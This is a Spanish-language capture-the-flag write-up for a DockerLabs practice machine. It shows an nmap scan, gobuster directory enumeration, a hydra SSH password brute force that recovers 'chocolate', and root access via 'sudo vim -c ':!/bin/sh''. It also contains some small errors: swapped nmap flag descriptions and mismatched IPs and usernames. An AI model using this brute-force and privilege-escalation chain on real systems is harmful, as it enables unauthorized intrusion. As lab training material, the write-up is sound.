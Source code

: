 ## WRITEUP DE LA MAQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.18.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 17:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.00017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.18.0.2):

![alt text](/fotos/debian.png)

Vamos a optar por hacer un ataque de fuerza bruta mediante la herramienta gobuster. Lo que vamos a intentar es encontrar directorios o ficheros ocultos que nos den pistas.

```
└─$ gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.18.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
"-x" Especifica las extensiones de archivos que Gobuster intentará agregar a cada entrada en la lista de palabras. En este caso, Gobuster probará cada palabra con las extensiones .php Esto significa que si una entrada en la lista de palabras es admin, Gobuster probará admin.php

El resultado:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 10701]

```

Vemos algo sospechoso, "/secret.php" nos da a entender que ahí hay algo. En la URL junto al 172.18.0.2 escribimos ese fichero php y vemos esta página:

![alt text](/fotos/mario.png)

Al ser una máquina tan sencilla se entiende que ese tal Mario será el nombre de usuario al que a continuación intentaremos conectarnos mediante ssh, pero antes de eso necesitamos saber su contraseña. Lo haremos mediante fuerza bruta esta vez con la herramienta hydra:

```
└─$ hydra -l mario -P /home/kali/Desktop/rockyou.txt ssh://172.18.0.2 -t 5
```

"-l mario" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a russoski.
<br><br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br><br>
"ssh://172.18.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br><br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña. (Nos va a tomar un par de minutos)

Obtenemos lo siguiente:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-18 17:16:37
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.18.0.2:22/

[22][ssh] host: 172.18.0.2   login: mario   password: chocolate

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-18 17:17:31
```

Sabemos que la contraseña es "chocolate", ahora si, nos conectamos mediante ssh y ponemos dicha contraseña:

```
ssh mario@178.18.0.2
```

```
mario@0887a732b61d:~$ whoami
mario@0887a732b61d:~$ mario
```

Toca escalar privilegios. Escribimos el comando "sudo -l" el cual permite a un usuario verificar qué comandos tienen permiso para ejecutar como superusuario (o cualquier otro usuario especificado). 

```
mario@0887a732b61d:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 0887a732b61d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 0887a732b61d:
    (ALL) /usr/bin/vim
```

Vamos a explotar el binario vim mediante el sitio web GTFObins (https://gtfobins.github.io/#) para escalar privilegios. Con buscar "vim" en el buscador de la página e ir al partado de sudo, encontramos nuestra forma de ser root, en este caso tendremos que ejecutar " sudo vim -c ':!/bin/sh' "

```
mario@0887a732b61d:~$ sudo vim -c ':!/bin/sh'
# whoami
root
```
Ya somos root, espero que os haya gustado este writeup, muchas gracias!